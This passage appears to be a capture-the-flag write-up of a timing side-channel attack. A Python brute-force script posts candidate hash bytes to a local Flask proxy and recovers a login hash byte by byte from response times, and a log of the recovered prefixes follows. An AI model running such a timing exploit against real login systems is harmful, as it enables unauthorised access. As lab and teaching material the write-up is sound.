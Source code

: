             return nganu
    
    app.run(debug = True,threaded= True)

the flask app is simply take an user&password and then encrypt the value using javascript function provided in the target application.

    import requests
    import string
    from tqdm import tqdm
    import random
    
    url = "http://127.0.0.1:5000/flite"
    
    hashnya = "f9{}aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    while True:
    	basket = {"time":0,"hex":"xx"}
    	fname  = hashnya.split("{}")[0] + "_"+str(random.random())[2:]
    	for x in tqdm(range(256)):
    		ress = open("result/" + fname,"a")
    		tmp = "%0.2x" % x
    		# print hashnya.format(tmp)
    		req = requests.post(url,data={"hash":hashnya.format(tmp)})
    		req_time = req.text
    		# req_time = req.elapsed.total_seconds()
    		if float(basket["time"]) < float(req_time):
    			basket["time"] = float(req_time)
    			basket["hex"] = tmp
    		ress.write("Bytes: " + str(tmp)+" "+str(req_time)+"\n")
    		ress.close()
    		print "\nBytes: " + str(tmp),str(req_time)+"\n"
    	hashnya = hashnya.format(basket["hex"]+"xx").split("xx")[0]+"{}"+"a"*(64-(len(hashnya.format("xx").split("xx")[0])+4))
    	print "Current Hash: " + str(hashnya)

this exploit is send request to the proxy (flask application) and then analyze the response time which is returned in the body response from the flask app and then save all the response time to text file to help me manually analyze the response because sometime the timing just messed up.

running out the scripts multiple times and finally get the correct hash to login into the application.

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 0.9x - 1.2x)
    f9aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 1.4x - 1.7x)
    f986aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.0x - 2.3x)
    f9865aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.4x - 2.8x)
    f9865a49aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.9x - 3.1x)
    f9865a4952aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 3.4x - 3.6x)
    f9865a4952a4aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 3.7x - 4.1x)
    f9865a4952a4f5aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 4.2x - 4.5x)
    f9865a4952a4f5d7aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 4.7x - 4.9x)
    f9865a4952a4f5d74baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 5.1x - 5.3x)
    f9865a4952a4f5d74b43aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 5.7x - 6.2x)
    f9865a4952a4f5d74b43f3aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 6.2x - 6.4x)
    f9865a4952a4f5d74b43f355aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 6.7x - 6.9x)
    f9865a4952a4f5d74b43f3558faaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 7.2x - 7.6x) [8f]
    f9865a4952a4f5d74b43f3558fedaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 7.7x - 8.1x) [ed]
    f9865a4952a4f5d74b43f3558fed6aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 8.2x - 8.4x) [6a][still not sure]
    f9865a4952a4f5d74b43f3558fed6a02aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 8.4x - 8.9x) [02]
    f9865a4952a4f5d74b43f3558fed6a0225aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 9.4x - 9.5x) [25]
    f9865a4952a4f5d74b43f3558fed6a0225c6aaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 9.5x - 9.9x) [c6]
    f9865a4952a4f5d74b43f3558fed6a0225c687aaaaaaaaaaaaaaaaaaaaaaaaaa ( 10.0 - 10.4) [87]
    f9865a4952a4f5d74b43f3558fed6a0225c6877faaaaaaaaaaaaaaaaaaaaaaaa ( 10.9 - 11.1) [7f]